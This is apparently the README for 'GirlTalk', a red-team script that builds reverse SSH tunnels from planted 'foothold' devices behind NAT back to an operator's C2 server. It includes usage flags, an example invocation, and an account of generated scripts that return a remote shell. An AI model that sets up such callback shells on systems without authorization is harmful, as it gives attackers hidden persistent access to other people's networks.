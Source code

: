 # README #
![Girltalk](/images/E3kGRY7WEAoMgMS.jpg)

GirlTalk is a script for rapidly deploying reverse SSH tunnels to remotely positioned devices.

## Updates
* Added multi-user support
* Scripting options to allow fine-tuning & easier operation
* Girltalk now supports AWS C2 deployments with the -a option

## NOTE!
This tool is freely licensed but I do not take any responsibility for whatever you choose to do with this.
Therefore, only use this tool in association with systems and networks you have explicit permission to operate on!

## What is this repository for?

The intent behind GirlTalk is to utilize as much native functionality as possible for creating reverse SSH tunnels.
By using native functionality, we can simplify the deployment of droppable devices. A side effect of this is that Girltalk is easily auditable.
Girltalk will give operators a route to a deivce that is not easily accessible, such as when a device is behind Network Address Translation (NAT).

## USAGE
Girltalk is currently compatible with the following options:
Key/Cert Mode options:
```
  -a	  Boolean option for keyed C2 infrastructure (This option has been tested with AWS as the C2)
  -k    Full path of SSH key
```

Password Mode options:
```
  -c    C2 host
  -u	  C2 username
  -l    Local username to use

usage:	 girltalk.sh -c <C2 hostname/IP> -l <local_username> -u <C2_username>
example: girltalk.sh -c host.aws.com -u ubuntu -l hatchetface -a -k ~/.ssh/amazon-keypair.pem
```

## How does it work?
Girltalk takes advantage of the standard functionality of openssh, but scripts out the process of orchestrating the connection between the "foothold" host to be deployed behind
NAT and the control infrastructure operators have configued.
![example diagram](/images/diagram.png)

## How do I get set up?
To get started, run girltalk.sh on the host you wish to have call back to your C2. Select all appropriate flags and include relevant info for contacting the C2 server.
If you have an AWS server acting as your C2, you should make sure that the -a option is selected.

Girltalk will place an access script onto the C2 host called 'hmu_user.sh'. Running this newly created script will transfer local ssh keys back to the foothold host and
immediately return a shell for the foothold device.

## Connecting to the deployable host
When girltalk.sh is done, a new script will be made available in the root directory of the C2 host called 'hmu.sh'. Run this script from the C2 host, input the password for
the account specified during girltalk runtime and you should have a shell on the remotely deployed foothold host without needing any unknown routing information from the foothold
host!
